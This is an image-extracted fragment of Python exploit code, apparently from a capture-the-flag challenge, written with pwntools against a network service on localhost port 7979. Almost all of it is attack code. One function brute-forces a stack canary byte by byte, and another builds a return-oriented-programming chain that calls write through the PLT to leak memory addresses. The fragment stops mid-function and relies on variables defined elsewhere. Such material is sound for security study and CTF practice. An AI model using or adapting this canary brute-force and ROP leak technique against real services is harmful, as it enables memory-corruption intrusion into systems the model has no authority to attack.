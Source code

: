 ```
def send_content(content):
    t = 1 if local else 2
    with context.quiet:
        p = None
        try:
            p = remote("127.0.0.1", 7979)
            temp = p.recvuntil("User to query: ", timeout=t)
            m = re.search(r"Socket fd: ([0-9]+)", temp)
            if m:
                log.info("FD: {}".format(m.group(1)))
                fd = int(m.group(1))
            p.send(content)
            p.recvuntil("Checking...\n", timeout=t)
            content = p.recv(timeout=t)
            content = content.strip()
            return content
        finally:
            if p:
                p.close()
            if local:
                p_main.recv()
    return None

def brute_next_canary_value(stack):
    for x in xrange(0, 256):
        payload = stack + chr(x)
        retval = send_content(payload)
        if retval is None:
            log.error("something has gone wrong")
        if "---" in retval:
            return x
    log.error("Can not find next canary")
    return None


def leak_address(address):
    with context.quiet:
        p = remote("127.0.0.1", 7979)
    temp = p.recvuntil("User to query: ")
    m = re.search(r"Socket fd: ([0-9]+)", temp)
    fd = int(m.group(1))
    log.info("leak fd: {}".format(fd))

    payload  = ""
    payload += user
    payload += stack_canary
    payload += p64(dummy) # RBP

    # write:
    #   rdi: fd
    #   rsi: buf
    #   rdx: count
    # rdx is 0x25 from previous calls
    payload += p64(pop_rsi_pop_r15_ret)
    payload += p64(address)
    payload += p64(dummy)
    payload += p64(pop_rdi_ret)
    payload += p64(fd)
    payload += p64(write_plt)
    payload += p64(dummy)

    log.info("Sending leak payload ...")
    p.send(payload)
```
